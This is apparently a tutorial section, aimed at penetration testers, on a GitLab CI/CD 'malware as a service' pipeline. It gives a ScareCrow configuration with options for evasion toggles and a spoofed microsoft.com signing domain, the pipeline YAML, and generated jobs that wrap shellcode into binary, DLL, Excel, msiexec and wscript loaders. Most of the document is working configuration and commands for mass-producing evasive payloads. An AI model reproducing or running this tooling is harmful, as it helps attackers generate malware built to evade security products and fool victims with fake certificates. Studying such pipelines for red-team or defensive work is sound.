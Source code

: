 ## Creating a Dynamic Child Pipeline

Having achieved the processing of jobs in parallel, we can further extend on the concept if we can create components of the pipeline dynamically, and further if we have the ability to introduce some configuration options into our service.

We know that malware generation tools like **ScareCrow** have different options that allow us to generate different types of artifacts, and perhaps different forms of evasion. Using **ScareCrow** as our example, we can easily implement a dynamic child pipeline based on the different types of *Loader* artifacts it can generate whereby each loader type becomes its own standalone CI/CD job.

The following concepts will be introduced in this document.

1. A YAML based configuration file with a Python script/module that can be used to lookup the configuration options.
2. The Gitlab CI/CD YAML syntax to implement a dependency based trigger which will execute a downstream child pipeline from a dynamically created Gitlab YAML file.  
3. Another Python script which uses ConfigLookup() to generate a child pipeline YAML file.

### YAML Based Configuration and Python ConfigLookup.py Module

In my early malware as a service design, it became quickly apparent that I would have to implement some sort of method for the operator to provide configuration information to the pipeline for processing.  I wanted to keep things simple, and easily digestable for the penetration testing operators and thus I settled on using YAML (https://en.wikipedia.org/wiki/YAML) as a configuration syntax.

Using our example of providing configuration for **ScareCrow**, we can create a hierarchical YAML syntax which reflects the different options we need to provide to the tool. Here is a file named "**SampleConfig.yml**" which does exactly that.

```
ScareCrow:
    loader:
        - binary
        - dll
        - control
        - excel
        - msiexec
        - wscript

    #injection: C:\\windows\\system32\\dataexchangehost.exe

    #delivery:
    #   - bits
    #   - hta
    #   - macro
    #url: https://delivery.acme.com

    ## Fake artifact signing cert uses this domain
    domain: microsoft.com

    ## Sandbox evasion only checks ifDomainJoined
    sandbox: False

    ## the below will selectively disable evasive features
    ## you probably want to keep these all at False.
    noamsi: False
    noetw: True
    nosleep: True
```

Having put this together, my next need was to create a programmatic way of looking up any option within that YAML configuration file. I turned to Python and created a small module/script which allows us to easily lookup any option and print its value back to the screen for consumption.  In this way, I can use the Python script anywhere which the YAML pipeline as needed, or even import this module into another Python script to generate a child pipeline configuration.

Below is an example of using **ConfigLookup.py** on the command line against this sample configuration file. Note that I sent the stderr output to /dev/null only for brevity as a banner is normally printed to the stderr output descriptor.

This example initially looks up ALL the options and prints out the embedded Python dictionary of results. As you can see, it is possible to "*drill down*" and lookup options deeper in the YAML as needed.

```
$ bin/ConfigLookup.py -c SampleConfig.yml 2>/dev/null ScareCrow
{'loader': ['binary', 'dll', 'control', 'excel', 'msiexec', 'wscript'], 'domain': 'microsoft.com', 'sandbox': False, 'noamsi': False, 'noetw': True, 'nosleep': True}

$ bin/ConfigLookup.py -c SampleConfig.yml 2>/dev/null ScareCrow.loader
['binary', 'dll', 'control', 'excel', 'msiexec', 'wscript']

$ bin/ConfigLookup.py -c SampleConfig.yml 2>/dev/null ScareCrow.domain
microsoft.com
```

### Gitlab Dynamic Dependency Driven Child Pipelines

The Gitlab CI/CD YAML syntax allows us to create a *trigger* which depends on an artifact from a prior stage of the pipeline. What we have to do is modify the main pipeline YAML script such that the **PreProcess** stage runs a script to dynamically produce YAML for the child pipeline, and introduces the dependency based trigger which will then execute the downstream YAML file that is generated.  This involves passing a YAML file artifact from the preprocessing stage and configuring it as a dependency in the **BakeMalware** stage.

Listed below are the changes to the Gitlab **.gitlab-ci.yml** file.

```
PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - export PATH=$PATH:${CI_PROJECT_DIR}/bin
        - mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
        - ln -f -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble
        - ScareCrow_Pipeline.py -c ${CI_PROJECT_DIR}/SampleConfig.yml >.scarecrow.yml
    artifacts:
        paths:
            - .scarecrow.yml

ScareCrow:
    stage: BakeMalware
    trigger:
        include:
        - artifact: .scarecrow.yml
          job: PreProcess
        strategy: depend
```

The result of using this *trigger* section will dynamically create a pipeline run from the file named "**.scarecrow.yml**" which has been created in the **PreProcess** stage by the "**ScareCrow_Pipeline.py**" script.

#### What does ScareCrow_Pipeline.py do?

The **ScareCrow_Pipeline.py** script actually imports the ConfigLookup() functionality from the **ConfigLookup.py** module/script. Using this it creates a Gitlab YAML file which is properly formatted for the parallel child pipeline stages to be executed. While this has been executed by the **ProProcess** stage, we can easily execute it manually and see that the parallelism introduced is based upon the different *Loader* options involved with ScareCrow.

The script also takes into account the various other options configured in the **SampleConfig.yml** file which should be manually edited by the operator.

```
$ bin/ScareCrow_Pipeline.py -c SampleConfig.yml

stages:
    - ScareCrow

ScareCrow00:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com -noetw -nosleep

ScareCrow01:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com -noetw -nosleep

ScareCrow02:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.com -noetw -nosleep -O output.js

ScareCrow03:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader excel -domain microsoft.com -noetw -nosleep -O output.js

ScareCrow04:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader msiexec -domain microsoft.com -noetw -nosleep -O output.js

ScareCrow05:
    stage: ScareCrow
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader wscript -domain microsoft.com -noetw -nosleep -O output.js

```




